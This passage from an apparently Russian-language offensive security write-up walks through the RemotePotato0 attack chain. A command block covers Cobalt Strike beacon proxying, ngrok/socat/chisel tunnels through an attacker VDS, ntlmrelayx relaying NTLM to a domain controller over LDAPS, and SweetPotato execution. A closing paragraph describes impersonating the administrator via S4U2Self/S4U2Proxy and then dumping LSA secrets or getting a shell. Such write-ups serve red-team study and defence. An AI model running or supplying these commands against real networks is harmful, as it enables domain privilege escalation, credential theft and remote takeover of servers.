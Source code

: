 ```
beacon(1)> socks 1080
(ATTACKER) ~$ ngrok tcp 135
(VDS) ~$ sudo socat -v TCP-LISTEN:135,fork,reuseaddr TCP:<NGROK_IP>:<NGROK_PORT>
(VDS) ~$ sudo ./chisel server -p 6666 --reverse --auth <USER>:<PASS>
(ATTACKER) ~$ ./chisel client --auth <USER>:<PASS> <VDS_IP>:6666 R:9997:127.0.0.1:9998
(ATTACKER) ~$ python examples/rpcoxidresolver.py -oip 127.0.0.1 -rip <VDS_IP> -rport 9997
(ATTACKER) ~$ proxychains4 -q python examples/ntlmrelayx.py -t ldaps://<INTERNAL_DC_IP> --rpc-port 9998 -smb2support --no-smb-server --no-http-server --no-wcf-server --no-raw-server --no-da --no-acl --delegate-access
beacon(2)> execute-assembly SweetPotato.exe -e 1 -oip <VDS_IP> -c 42CBFAA7-A4A7-47BB-B422-BD10E9D02700
```

[![S4U2Proxy, я иду!](/assets/images/remote-potato-0/cs-sweetpotato-relay.png)](/assets/images/remote-potato-0/cs-sweetpotato-relay.png)
{:.center-image}

S4U2Proxy, я иду!
{:.quote}

После этого, полагаю, не нужно объяснять, что делать дальше.

Получаем TGS-билет через транзитные расширения Kerberos (S4U2Self & S4U2Proxy) с опцией олицетворения пользователя administrator ([getST.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/getST.py)) и фигачим [secretsdump.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) / [wmiexec.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py), чтобы извлечь секреты LSA или получить шелл на сервере.
